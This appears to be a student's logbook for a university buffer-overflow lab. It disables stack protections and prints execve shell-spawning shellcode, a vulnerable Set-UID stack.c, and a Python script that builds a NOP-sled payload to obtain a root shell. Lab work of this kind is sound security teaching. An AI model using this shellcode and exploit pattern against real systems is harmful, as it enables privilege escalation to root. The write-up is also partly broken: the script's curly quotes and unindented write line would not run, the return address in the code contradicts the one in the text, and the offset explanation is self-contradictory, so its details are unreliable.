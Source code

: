 # LOGBOOK5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

(prints)

## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```shell
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

print debug

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.
